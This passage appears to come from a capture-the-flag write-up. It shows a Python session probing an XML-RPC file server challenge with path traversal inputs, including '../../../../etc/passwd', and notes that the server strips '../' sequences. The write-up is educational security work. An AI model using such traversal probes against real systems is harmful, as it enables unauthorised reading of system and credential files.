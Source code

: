 While the FBI is coming, we keep looking. ;)

```
>>> s.listdir('/')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/xmlrpclib.py", line 1224, in __call__
    return self.__send(self.__name, args)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1578, in __request
    verbose=self.__verbose
  File "/usr/lib/python2.7/xmlrpclib.py", line 1264, in request
    return self.single_request(host, handler, request_body, verbose)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1297, in single_request
    return self.parse_response(response)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1473, in parse_response
    return u.close()
  File "/usr/lib/python2.7/xmlrpclib.py", line 793, in close
    raise Fault(**self._stack[0])
xmlrpclib.Fault: <Fault 1: "<type 'exceptions.ValueError'>:Hacking attempt detected! Your IP address has been traced, an FBI team will soon arrive to your location. Please stay where you are and wait for your arrest.">
```

Nope...

```
>>> s.listdir('../')
['flag.txt']
>>> s.listdir('../../../../')
['flag.txt']
```

Uhm, interesting. We got exactly the same result as an empty parameter.

```
>>> s.listdir('../../../../etc/passwd')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/xmlrpclib.py", line 1224, in __call__
    return self.__send(self.__name, args)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1578, in __request
    verbose=self.__verbose
  File "/usr/lib/python2.7/xmlrpclib.py", line 1264, in request
    return self.single_request(host, handler, request_body, verbose)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1297, in single_request
    return self.parse_response(response)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1473, in parse_response
    return u.close()
  File "/usr/lib/python2.7/xmlrpclib.py", line 793, in close
    raise Fault(**self._stack[0])
xmlrpclib.Fault: <Fault 1: "<type 'exceptions.ValueError'>:Invalid directory: ./fileserver/etc/passwd">
```

Now we know the real path for the file flag.txt, or at least a relative path to wherever the server is installed. We also know the sequences "../" are being filtered out from the input. This is a classic, albeit flawed way of avoiding path traversal vulnerabilities.

